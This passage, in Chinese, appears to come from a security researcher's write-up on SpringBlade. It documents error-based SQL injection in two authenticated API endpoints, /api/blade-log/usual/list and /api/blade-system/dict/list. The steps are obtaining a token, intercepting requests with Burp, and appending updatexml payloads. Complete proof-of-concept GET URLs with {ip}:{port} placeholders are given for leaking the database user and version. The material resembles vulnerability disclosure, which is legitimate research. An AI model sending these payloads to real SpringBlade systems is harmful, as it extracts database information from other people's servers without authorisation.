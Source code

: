 首先在登录之后获得`token`然后通过Burp抓包拦截请求构造SQL报错注入；

该接口的接入点。

http://localhost:1888/#/monitor/log/usual

![image-20241106174306404](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106174306404.png)

![image-20241106092828854](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106092828854.png)

如果能过去到`token` 可以在浏览器中通过增加`blade-auth={token}`的方式加上updatexml的方式进行报错注入。

![image-20241106092848062](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106092848062.png)

##### POC：

请求方式：GET

完整POC：

```bash
http://{ip}:{port}/api/blade-log/usual/list?blade-auth={token}&updatexml(1,concat(0x7e,user(),0x7e),1)=1

http://localhost:1888/api/blade-log/usual/list?blade-auth={token}&updatexml(1,concat(0x7e,user(),0x7e),1)=1
```



#### /blade-system/dict/list

`/api/blade-system/dict/list`接口：是blade-system服务模块下查询数据库的接口。

首先在登录之后获得`token`然后通过Burp抓包拦截请求构造SQL报错注入；

右图是该接口的接入点。

http://localhost:1888/#/system/dict

![image-20241106174356695](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106174356695.png)

![image-20241106092958733](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106092958733.png)

如果能过去到token 可以在浏览器中通过增加`blade-auth={token}`的方式加上updatexml的方式进行报错注入。

![image-20241106093006943](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106093006943.png)

##### POC：

请求方式：GET

完整POC：

```bash
http://{ip}:{port}/api/blade-system/dict/list?blade-auth={token}&updatexml(1,concat(0x7e,version(),0x7e),1)=1

http://localhost:1888/api/blade-system/dict/list?blade-auth={token}&updatexml(1,concat(0x7e,version(),0x7e),1)=1
```
